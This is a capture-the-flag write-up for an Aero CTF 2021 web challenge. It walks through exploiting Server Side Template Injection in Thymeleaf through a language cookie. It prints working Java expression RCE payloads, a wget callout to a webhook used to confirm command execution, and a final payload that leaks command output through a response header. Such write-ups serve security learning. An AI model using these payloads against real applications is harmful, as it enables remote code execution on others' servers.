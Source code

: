 ## Aero CTF 2021
### Author: p4w @ [beerpwn](https://beerpwn.it)
### Twitter https://twitter.com/p4w16

## Challenge description (Web category)
![alt img](chall-desc.PNG)

## TL;DR
__Server Side Template Injection__ on __Thymeleaf__ template engine to gain __RCE__.

## Solution
### Discovery of the vuln
The challenge description says that the site is __available in english and russian__, this probably is written to point the attention to something involving the language.
Also the challenge description tell that the flag should be located at `/` on the file system, this make me think that it is necessary to gain at least an __arbitrary file read__ or __RCE__ to get the flag.
By inspection the site it is possible to notice that we can choose the language by clicking on a button.
As it is possible to notice that when the button is clicked (`onclick` event), then the `set_language(lang)` function will be executed.

![alt img](site.PNG)

![alt img](js.PNG)

The function simply set a cookie named __lang__ with the values __en__ or __ru__ and then reload the page.
Let's inspect the requests with burp-proxy.

![alt img](normal-req.PNG)

The first thing that I tried during the CTF, was to modify the cookie with some simple directory traversal payloads.

![alt img](dir_trav_3.PNG)

![alt img](dir_trav_1.PNG)

![alt img](dir_trav_2.PNG)

The directory traversal seems working, but if we try to include some arbitrary file (such as __/etc/passwd__) we got a __500 internal server error__. The error is verbose enough to show the server side exception: __org.thymeleaf.exceptions.TemplateInputException__ and
by googling this error, I come across to this template engine: [thymeleaf](https://www.thymeleaf.org/).

![alt img](thymeleaf.PNG)

The exception thrown seems to be related to loading the template, and that smells like __SSTI__ to me. So I start searching for __SSTI on Thymeleaf__ and I discovered a couple of related articles:
* [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)
* [https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability](https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability)

### Exploitation
Reading these articles, we can notice that a template injection in __Thymeleaf__ it may be possible if _a template name or a fragment are concatenated with untrusted data_.
To get a better explanation and details I really council the readers to read the articles mentioned before.
The proposed payloads to gain __RCE__ are these:

* `__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("<cmd-here>").getInputStream()).next()}__::.x`
* `${T(java.lang.Runtime).getRuntime().exec('<cmd-here>')}`

At this point I simply tried one of these payloads into the __lang__ cookie with a command such as ping `wget <webhook-endpoint>` to verify the __command execution__
and it worked __:=)__.

![alt img](rce-poc-2.PNG)

Now I had __RCE__ and since the flag was located in __/__, I needed some way to enumerate the file system contents and extract the flag. Problem was that it was not possible to use all the bash functionality such us `|, &, ``, $`. I also tried to extract files with and write files with `wget`, but no luck with that solution.
To summarize I had the ability to run commands, but no way to build a payload (__time based__ or __OOB__) that allow me to extract the output of an arbitrary command.
At this point I start to read the __thymeleaf__ [documentation](https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html) and some [Java-doc](https://docs.oracle.com/javaee/6/api/javax/servlet/http/HttpServletResponse.html) for Java objects, the basic idea that I had was to insert the output of the executed command directly into the __response__, for example by using a crafted HTTP header response with the output. After a bit of pain, I was able to build this payload: `__${#response.setHeader("cmd-out","test")}__::.x` and it worked __:)__!\
*[the above payload should work well on __Thymeleaf 3.0__, probably for __Thymeleaf 2.1__ could be: `__${#ctx.httpServletResponse.setHeader("cmd-out","test")}__::.x`]

![alt img](thymeleaf-doc.PNG)

![alt img](javadoc.PNG)

![alt img](set-header.png)

Now that we have the ability to modify the response, I simply played a bit with the Java-doc to build a payload that reads the output of the command and save it into the crafted header.
The final payload:
```
__${#response.setHeader(\"cmd-out\",#uris.escapeQueryParam(new java.io.BufferedReader(new java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec(\"ls\").getInputStream())).lines().toArray()[0]))}__::.x
```
This payload will execute the `ls` command, read the first line, url-encode it and insert in the `cmd-header` of the HTTP response.

[Here](./x.py) you can download a simple python script that I made during the CTF to automate all of these steps and read all the lines of the executed command.

![alt img](script-run.PNG)

That's all folk, I think that was really an interesting challenge!\
Cheers, [p4w](https://twitter.com/p4w16) =)
